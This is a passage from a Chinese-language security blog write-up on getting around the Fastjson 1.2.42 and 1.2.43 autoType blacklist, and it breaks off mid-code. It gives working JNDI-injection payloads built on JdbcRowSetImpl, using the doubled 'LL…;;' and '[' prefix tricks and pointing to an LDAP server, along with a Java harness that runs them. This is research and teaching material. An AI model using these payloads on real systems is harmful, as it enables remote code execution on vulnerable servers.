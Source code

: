 而且hash的加密方式就在com.alibaba.fastjson.util.TypeUtils#fnv1a\_64，我们只需要通过把恶意的类通过碰撞hash就可以获取黑名单了，项目地址:[https://github.com/LeadroyaL/fastjson-blacklist](https://github.com/LeadroyaL/fastjson-blacklist)

![image-20220414143343531](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173311068-1667245518.png)

因为前面已经去除过一次"L"和";"，所以是进入不到if，我们用双写就可以绕过了。

![image-20220414143606281](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173311449-1344968087.png)

修改payload

    {"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"ldap://localhost:1389/#EXP", "autoCommit":true}
    
    

    package com.akkacloud.demo;
    
    import com.alibaba.fastjson.JSON;
    import com.alibaba.fastjson.parser.ParserConfig;
    import com.sun.rowset.JdbcRowSetImpl;
    
    import java.sql.SQLException;
    
    public class fastjonTest2 {
        public static void main(String[] args) {
    
            String exp = "{\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\",\"dataSourceName\":\"ldap://localhost:1389/#EXP\", \"autoCommit\":true}";
    
    
            ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
            JSON.parseObject(exp);
        }
    }
    
    

![image-20220414143927278](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173312006-1739468127.png)

### 2.3、Fastjson:1.2.43

1.2.43就是在原有的基础上对"LL"做了判定，是就直接抛出异常

![image-20220414144600160](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173312659-1195029247.png)

![image-20220414144428185](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173313496-371035809.png)

但是"\["还是可以

    {"@type":"[com.sun.rowset.JdbcRowSetImpl"[{,"dataSourceName":"ldap://localhost:1389/EXP", "autoCommit":true}
    
    

    package com.akkacloud.demo;
    
    import com.alibaba.fastjson.JSON;
    import com.alibaba.fastjson.parser.ParserConfig;
    import com.sun.rowset.JdbcRowSetImpl;
    